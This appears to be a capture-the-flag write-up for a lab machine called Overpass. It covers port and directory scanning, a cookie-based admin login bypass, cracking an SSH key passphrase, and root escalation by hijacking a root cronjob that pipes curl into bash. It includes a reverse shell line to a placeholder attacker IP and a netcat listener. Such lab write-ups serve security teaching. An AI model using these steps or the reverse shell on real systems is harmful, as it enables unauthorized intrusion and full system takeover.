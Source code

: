 # Overpass

##### Written: 21/05/2021

##### IP address: 10.10.138.135

---

First, I ran an **nmap scan** to enumerate the services that are running on the target machine. The command used is:

```
sudo nmap -sC -sV -vv -oN nmap_initial 10.10.138.135
```

 **Results:**

<img style="float: left;" src="screenshots/screenshot1.png">

From the results, we can see that there are two open ports on the machine: **SSH** and **HTTP**.

<br>

Navigating to the HTTP webserver, I can see the following page:

<img style="float: left;" src="screenshots/screenshot2.png">

Before carrying out a happy-path enumeration, I shall use **Gobuster** to see if I can enumerate any hidden directories. The command used is as such:

```
gobuster dir -u http://10.10.138.135/ -x php,js,txt -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Note that I made sure to check for common extensions such as **.php** in my directory enumeration.

With Gobuster up and running, I can then begin to explore the page.

The first thing I did was to check the source code of the home page. Doing so, I noticed an interesting comment that was left behind by one of the web developers:

<img style="float: left;" src="screenshots/screenshot3.png">

This seems to imply that their 'military grade cryptography' is actually one that was used by Romans. Furthermore, it doesn't seem to be very secure by the looks of it.

Could it be the **Caesar Cipher**? I will keep this in mind for now!

<br>

Next, on the **Downloads** page, there are some files that we can download. Interestingly, they actually provide the **source code** for their password manager! I made sure to download it, as well as the **Build Script** and the **Precompiled Linux Binary**.

<img style="float: left;" src="screenshots/screenshot4.png">

Before looking at those files, let me check on the results of Gobuster:

<img style="float: left;" src="screenshots/screenshot5.png">

<br>

Nice, Gobuster managed to find an **admin login page**:

<img style="float: left;" src="screenshots/screenshot6.png">

I tried some basic SQL injections but they did not work. However, I realized that the login functionality was actually exposed in the **login.js** file that was enumerated. 

<img style="float: left;" src="screenshots/screenshot7.png">

Looking more closely at the **login()** function, it seems that the credentials that are inputted at the login screen are sent in a POST request to an endpoint **'/api/login'**. The response is then received and the data inside is stored in a variable **statusOrCookie**. There is then a check to verify whether the user is authenticated or not. However, looking at the **else** statement which authenticates the user, if we simply create a **SessionToken** cookie and set any random value,  we will be redirected to the **/admin** page.

Let's test this out in the **developer tools > Storage**. In there, I created a cookie called SessionToken and assigned a value to it.

<img style="float: left;" src="screenshots/screenshot8.png">

<br>

Upon refreshing the page, we can see that I have gained access into the administrator panel.

<img style="float: left;" src="screenshots/screenshot9.png">

We have an RSA private key, which will probably be used to log into the ssh server that is also running on the machine. The username that uses this key could also be **James**, as he is mentioned explicitly in the message.

Let's copy this private key and try to ssh into the machine.

<img style="float: left;" src="screenshots/screenshot10.png">

Unfortunately we need to find out the **passphrase** for the RSA key. We can try a dictionary attack using **John the Ripper**, which is a password cracking tool. First, we need to convert the RSA key into a hash that can be cracked by JTR. To do so, we use an auxiliary tool called **ssh2john**. This can be done with the following command:

```
python /usr/share/john/ssh2john.py key_rsa > key_rsa.hash 
```

*Note that python3 does not execute ssh2john properly!*

Now, we can use JTR with the rockyou.txt wordlist and try to crack the passphrase:

```
john --wordlist=/usr/share/wordlists/rockyou.txt key_rsa.hash
```

**Results**

<img style="float: left;" src="screenshots/screenshot11.png">

Nice! James's private key passphrase is **james13**. Now we can log into the ssh server.

<img style="float: left;" src="screenshots/screenshot12.png">

**With that, we can obtain the user flag from the home directory of James.**

---

Next, we have to a way to escalate our privileges. 

First, I checked out the **todo.txt** file located in the home directory of James.

<img style="float: left;" src="screenshots/screenshot13.png">

Nice, looks like James's password is stored in the password manager that he implemented. I used the **find** command to located the overpass binary on the target machine.

```
find / -name overpass 2>/dev/null
```

The binary was found in **/usr/bin/overpass**.

I executed the binary and managed to obtain James's password by retrieving all of the saved passwords:

<img style="float: left;" src="screenshots/screenshot14.png">

James password is **saydrawnlyingpicture**

<br>

Next, I'll try and see what **sudo privileges** James has on this machine.

 <img style="float: left;" src="screenshots/screenshot15.png">



Uh oh, looks like James does not have any sudo privileges at all. I will have to try another path of privilege escalation.

To automate the process, I'll be using **linpeas**, which is a privilege escalation automation script. After running the script, linpeas managed to automate a high potential PE vector.

<img style="float: left;" src="screenshots/screenshot16.png">

The *** * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash** refers to a **cronjob**, which generally has the following format:

<img style="float: left;" src="screenshots/screenshot17.png">

Essentially, the ***** symbols dictate the frequency of the cronjob. If the user to execute the command/binary is to be set, then their name will be placed right after the symbols. Then, the command to run during each interval will be placed after that. In the case of the example above, the **rm /home/someuser/tmp/*** command will run **every minute** (as shown by 5 * symbols)

<br>

How about the cronjob that was found by linpeas?

<img style="float: left;" src="screenshots/screenshot18.png">

Hence, this cronjob curls a **buildscript.sh** file from **overpass.thm/downloads/src**  every minute and executes it as it pipes it over to bash. The important thing to note is that this command is **executed as root**. We can exploit this vulnerability by creating our own bashscript.sh which sets up a **reverse shell** that connects back to our host machine. Since our buildscript.sh is piped over to bash and executed as root, the reverse shell that we obtain will be root as well.

<br>

Let's set this up!

First, I needed to know what ip address **overpass.thm** points to. Looking at the **/etc/hosts** file on the target machine, we can actually see that overpass.thm points to localhost:

<img style="float: left;" src="screenshots/screenshot19.png">

I changed the IP address associated with this domain to my own IP address. Now, every time a request is made to overpass.thm, the target machine will check the /etc/hosts file and direct the request to my machine instead.

<br>

Next, I created a bash script called **buildscript.sh** with the following command inside:

```
bash -i >& /dev/tcp/YOUR_IP_HERE/8080 0>&1
```

This is a basic reverse shell command that makes a connection back to port 8080 of my local host.

Next, I placed this script inside a **/downloads/src** directory within my machine. I then started up a simple http server on **port 80** using python.

Finally, I also set up a netcat listener on port 8080 using the command:

```
nc -lvnp 8080
```

<br>

Hence, once a minute passes, the target machine will curl my created **buildscript.sh** and execute it as root, setting up a reverse shell which my netcat listener is currently listening out for.

<img style="float: left;" src="screenshots/screenshot20.png">

After a minute passed, we can see that my buildscript.sh was indeed curl'ed by the target machine.

<img style="float: left;" src="screenshots/screenshot21.png">

And with that, I have gained access to the target machine as **root**.

**I can then obtain the root flag from root.txt found in the root directory.**

